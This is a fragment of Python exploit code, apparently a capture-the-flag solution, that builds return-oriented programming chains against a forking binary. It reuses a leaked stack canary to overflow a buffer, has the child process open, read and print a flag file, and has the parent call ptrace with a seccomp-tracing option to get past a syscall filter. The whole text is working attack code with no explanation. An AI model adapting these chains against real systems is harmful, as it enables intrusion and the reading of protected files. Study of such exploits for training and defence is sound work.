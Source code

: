 ```python
pop_rcx = rop.find_gadget(['pop rcx', 'ret'])[0]
pop_rdx_r12 = rop.find_gadget(['pop rdx', 'pop r12', 'ret'])[0]
mov_rsp_rdx = libc.address + 0x000000000005a170 # mov rsp, rdx ; ret
xchg_eax_esi = libc.address + 0x000000000004dab6 # xchg eax, esi ; ret
xchg_eax_edi = libc.address + 0x000000000014a385 # xchg eax, edi ; ret
xchg_eax_edx = libc.address + 0x00000000000cea5a # xchg eax, edx ; ret
mov_rax_rdi = libc.address + 0x000000000008f4e4 # mov rax, qword ptr [rdi + 0x68] ; ret
mov_rdi_rax = libc.address + 0x000000000011d1ea # mov qword ptr [rdi], rax ; mov qword ptr [rdi + 8], rsi ; ret

# construct the child ROP
c_rop = b'C'*0x88 + p64(canary) + p64(0)
c_rop += p64(pop_rdi)
# sleep the child to wait for parent using sleep()  (sleep will call nanosleep under the hood)
c_rop += p64(1)
c_rop += p64(libc.sym.sleep)

len_rop = 18*8 # distance of filename from beginning of rop
# open()
c_rop += p64(pop_rdi)
c_rop += p64(rop_address+len_rop)
c_rop += p64(pop_rsi)
c_rop += p64(0)
c_rop += p64(libc.sym.open)
# read file
c_rop += p64(xchg_eax_edi) # put open returned fd in edi
c_rop += p64(pop_rsi)+p64(exe.bss(0xa00))+p64(pop_rdx_r12)+p64(100)*2+p64(exe.sym.read)
# write its content to stdout with puts()
c_rop += p64(pop_rdi)+p64(exe.bss(0xa00))+p64(libc.sym.puts)
if args.REMOTE:
  c_rop += b'/home/asianparent/flag.txt\x00'
else:
  c_rop += b'flag.txt\x00'

corrupt_child(p, c_rop)

# parent payload
p_rop = b'A'*0x88+p64(canary)+p64(0xdeadbeef)
# ptrace(PTRACE_SEIZE, child, NULL, PTRACE_O_TRACESECCOMP)
p_rop += p64(pop_rdi)+p64(exe.sym['child']-0x68)+p64(mov_rax_rdi)  # read child pid from .bss
p_rop += p64(xchg_eax_esi)    # esi = child
p_rop += p64(pop_rdi)
p_rop += p64(16902) # PTRACE_SEIZE
p_rop += p64(pop_rdx_r12)
p_rop += p64(0)*2
p_rop += p64(pop_rcx)
p_rop += p64(0x80)  # PTRACE_O_TRACESECCOMP
p_rop += p64(libc.sym.ptrace)
# wait
p_rop += p64(pop_rdi) + p64(0x0) + p64(libc.sym.wait)
# ptrace(PTRACE_CONT, child, NULL, NULL)
p_rop += p64(xchg_eax_esi)    # esi = child
p_rop += p64(pop_rdi)
p_rop += p64(7) # PTRACE_CONT
p_rop += p64(pop_rdx_r12)
p_rop += p64(0)*2
p_rop += p64(pop_rcx)
p_rop += p64(0)
p_rop += p64(libc.sym.ptrace)
# loop to ROP --> wait
p_rop += p64(pop_rdx_r12)+p64(rop_address+(12*8))+p64(0)+p64(mov_rsp_rdx)

corrupt_parent(p, p_rop)
```